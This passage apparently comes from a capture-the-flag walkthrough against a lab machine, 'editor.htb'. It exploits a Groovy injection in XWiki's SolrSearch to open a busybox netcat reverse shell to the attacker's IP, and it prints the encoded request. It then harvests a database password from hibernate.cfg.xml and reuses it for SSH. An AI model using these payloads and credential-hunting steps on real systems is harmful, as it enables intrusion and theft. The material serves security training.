 

This payload will get us a shell, then we can really start to dig around. Trying `nc`, `/bin/bash`, and other revshell shells, we continuosly get no connection to our listener. Eventually we find that busybox is installed, and its `nc` command works. We can use that to get a shell.


```python
payload = urllib.parse.quote("'busybox nc 10.10.14.31 9999 -e /bin/bash'")
exploit(f'wiki.{target}/xwiki', payload)
```

    [!] HTTPS not available, falling back to HTTP.
    [✔] Target supports HTTP: http://wiki.editor.htb/xwiki
    [+] Sending request to: http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%27busybox%20nc%2010.10.14.31%209999%20-e%20/bin/bash%27.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
    ('<p>&lt;?xml version="1.0" encoding="UTF-8"?&gt;<br/>&lt;rss xmlns:dc="<span '
     'class="wikiexternallink"><a class="wikimodel-freestanding" '
     'href="http://purl.org/dc/elements/1.1/"><span '
     'class="wikigeneratedlinkcontent">http://purl.org/dc/elements/1.1/</span></a></span>" '
     'version="2.0"&gt;<br/>&nbsp;&nbsp;&lt;channel&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;title&gt;RSS '
     'feed for search on '
     '[}}}]&lt;/title&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;link&gt;<span '
     'class="wikiexternallink"><a class="wikimodel-freestanding" '
     'href="http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%27busybox%20nc%2010.10.14.31%209999%20-e%20%2Fbin%2Fbash%27.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D"><span '
     'class="wikigeneratedlinkcontent">http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%27busybox%20nc%2010.10.14.31%209999%20-e%20%2Fbin%2Fbash%27.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D</span></a></span>&lt;/link&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;description&gt;RSS '
     'feed for search on '
     '[}}}]&lt;/description&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;language&gt;en&lt;/language&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;copyright '
     '/&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:creator&gt;XWiki&lt;/dc:creator&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:language&gt;en&lt;/dc:language&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:rights '
     '/&gt;<br/>&nbsp;&nbsp;&lt;/channel&gt;<br/>&lt;/rss&gt;</p><div '
     'class="wikimodel-emptyline"></div><div class="wikimodel-emptyline"></div>')


Now that we have access, another `grep -C 2 -R "password" .` nets us some gold
```bash
./webapps/xwiki/WEB-INF/hibernate.cfg.xml-    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
./webapps/xwiki/WEB-INF/hibernate.cfg.xml-    <property name="hibernate.connection.username">xwiki</property>
./webapps/xwiki/WEB-INF/hibernate.cfg.xml:    <property name="hibernate.connection.password">OLIVERCREDS</property>
```

Before we go too far, lets see if this credential works to get us on the box...


```python
oliver_ssh = ssh(target, 22, username='oliver', password='OLIVERCREDS')
print(oliver_ssh.exec('ls -alhn; cat user.txt'))
```
